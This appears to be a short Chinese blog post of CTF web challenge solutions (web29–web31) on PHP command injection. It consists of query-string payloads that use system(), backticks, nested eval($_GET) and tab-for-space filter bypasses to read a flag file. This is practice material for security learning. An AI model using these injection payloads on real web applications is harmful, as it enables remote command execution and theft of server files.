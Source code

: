 ```yaml
---
title: 命令执行刷题
date: 2025-01-11 10:20:52
tags:
    - "web"
    - "刷题"
    - 命令执行
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web29
```payloads
?c=system("cat f???.php");
```

### web30
```payloads
?c=echo(`ls`);
?c=echo(`tac%20f*`);
```
或者
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```

### web31
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```
或者
```payloads
c=echo(tac%09fla*); #使用tab来代替空格
```


--------
待补充